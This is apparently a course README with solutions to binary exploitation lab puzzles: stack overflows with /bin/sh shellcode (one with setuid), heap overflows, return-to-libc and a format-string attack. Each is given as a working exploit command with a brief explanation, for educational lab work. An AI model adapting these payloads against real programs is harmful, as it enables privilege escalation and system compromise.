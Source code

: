 # Emory Fall 2019: CS453 Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:  
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')  
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:  
./overflow2 $(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')  
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:  
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex  
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
This was a tedious one.  
- Step 1: Bypass the first comparison by filling it with hex characters such that the first 10 characters spell RUSHKEKEKE and the sum of the hex representation of RUSHKEKEKE and the subsequent 14 characters divide 256. 
- Step 2: Edit the shellcode so that it runs setuid (getuid, getuid), otherwise the shell won't spawn with privileges (I realized this in hindsight after spawning a useless shell).
- Step 3: The size of the buffer is not show in the code, so I had to use gdb to find the size of the buffer which turned out to be 4068. Fill the buffer with the shellcode and some extra padding to also make sure that the sum of the hex characters in the buffer is divisible by 256. 
- Step 4: Hold the door open by piping in the shellcode + nopsled with '-' so that the keyboard remains interactive and end of input is not reached. If end of input is reached, shell instantly closes. 

## Heap Overflow 1
Solution:  
./heap-arbitrary-overwrite $(perl -e 'printf "A" x 40')$(printf "\x9c\xcf\x0e\x08") $(perl -e 'printf "\x44\x33\x22\x11"')$(perl -e 'printf"B" x 32')  

## Heap Overflow 2
Solution:  
./heap-hijack-funcptr $(perl -e 'printf "A" x 72')$(printf '\xdf\x89\x04\x08')  
V simple; the size of the allocated space was 64 + 8 bytes, and overflow the next pointer to return into the shell 

## Return to libc
Solution:  
./overflow $(perl -e 'print "AAAA"x764')AAAA$(printf "ABCDD\xa6\x85\x04\x08")$(printf "\x40\x6b\xe4\xf7")AAAA$(printf "\xc8\x8d\xf6\xf7")  
The idea behind the attack is that because the stack is nonexecutable, you have to return to places in memory that are executable. 


## Format String
Solution:  
./format $(perl -e 'print "\x41\xc0\xd2\xff\xff\xc1\xd2\xff\xff\xc2\xd2\xff\xff\xc3\xd2\xff\xff"')%$[0xfb-0x20]u%10\$n%$[0x184-0xfb]u%11\$n%$[0x204-0x184]u%12\$n%$[0x308-0x204]u%13\$n%271\$p.%272\$p.%273\$p.%274\$p.%275\$p  
Inject shellcode and then point to it by manipulating format strings

